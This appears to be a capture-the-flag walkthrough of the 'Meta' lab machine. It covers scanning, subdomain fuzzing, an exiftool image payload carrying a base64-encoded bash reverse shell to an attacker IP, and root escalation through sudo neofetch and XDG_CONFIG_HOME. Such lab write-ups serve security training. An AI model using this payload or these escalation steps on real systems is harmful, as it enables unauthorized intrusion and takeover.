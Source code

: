 # Enumration

### Nmap Scan
```shell-session
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumration
On exploring web surface we didn't got much so moving on to fuzzing sub-domains.

```shell-session
──(kali㉿kali)-[~/Desktop/mata]
└─$ ffuf -w subdomains-top1million-5000.txt:FUZZ -u http://artcorp.htb/ -H "Host: FUZZ.artcorp.htb" -fw 1  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://artcorp.htb/
 :: Wordlist         : FUZZ: subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.artcorp.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

dev01                   [Status: 200, Size: 247, Words: 16, Lines: 10]
:: Progress: [4989/4989] :: Job [1/1] :: 122 req/sec :: Duration: [0:00:49] :: Errors: 0 ::
```

We got  a sub-domain `dev01` lets jump into that.

We see that it's simply printing all the **meta-data** of uploaded picture with some tag either removed or not shown.

Exploring more on this I find out we can achieve RCE from this function.
+ [JPEG RCE | Github](https://github.com/OneSecCyber/JPEG_RCE)

Forming Payload to get a reverse shell

```shell
┌──(kali㉿kali)-[~/Desktop/mata/JPEG_RCE]
└─$ exiftool -config eval.config C -eval='system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTQvOTAwMSAwPiYxCg== | base64 -d | bash")'
    1 image files updated
```

# Getting User
Using `pspy32` tool find any process that might lead us to root.

```shell
/bin/bash /usr/local/bin/convert_images.sh 
2022/02/03 06:11:01 CMD: UID=1000 PID=6769   | /usr/local/bin/mogrify -format png *.* 
2022/02/03 06:11:01 CMD: UID=1000 PID=6770   | pkill mogrify
```

Reading this `convert_images.sh`

```shell
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify

/bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf
```

[ImageMagic Shell Injection via PDF](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

# Privilege Escalation

On doing `sudo -l` we have `env_keep+=XDG_CONFIG_HOME` and we can run `/usr/bin/neofetch \\` with no parameters.

Searching about that environment variable  [debian - Where should the XDG_CONFIG_HOME variable be defined? - Super User](https://superuser.com/questions/365847/where-should-the-xdg-config-home-variable-be-defined) 

Therefore on running `sudo /usr/bin/neofetch \\` the config file of user **Thomas** will we used from it's home directory `/home/thomas/.config`

```bash
$ export XDG_CONFIG_HOME=/home/thomas/.config

$ echo "/bin/sh" >> /home/thomas/.config/config.conf
```

